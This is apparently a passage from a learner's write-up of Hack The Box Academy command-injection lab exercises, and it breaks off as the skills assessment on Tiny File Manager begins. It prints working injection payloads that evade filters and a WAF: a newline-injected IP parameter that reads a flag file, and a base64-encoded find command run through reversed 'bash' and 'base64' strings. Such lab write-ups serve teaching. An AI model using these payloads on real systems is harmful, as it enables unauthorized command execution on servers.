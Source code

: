 ```
ip=127.0.0.1%0ac'a't${IFS}${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt
```  

>Find the output of the following command using one of the techniques you learned in this section: `find /usr/share/ | grep root | grep mysql | tail -n 1`  

>Base64 encoded `find` command:
```
echo -n 'find /usr/share/ | grep root | grep mysql | tail -n 1' | base64 -w 0;echo
```  
>Command injection payload bypassing WAF:
```
ip=127.0.0.1%0a$(rev<<<'hsab')<<<$($(rev<<<'46esab')${IFS}-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)
```  

# Skills Assessment - Command Injection  

>[Skills assessment for command injection](https://academy.hackthebox.com/module/109/section/1042) present a login page to the web application, running `Tiny File Manager 2.4.6`.  
>After logging in as the user `guest` with a password of `guest` the landing page list files in a folder and there are functions on each listed files in web folder.  

![cmd-inject-skill-assess-landing-page](/images/cmd-inject-skill-assess-landing-page.png)  

>Testing and researching vulnerabilities based on the version of the web application, I moved on to enumerating web parameters.  
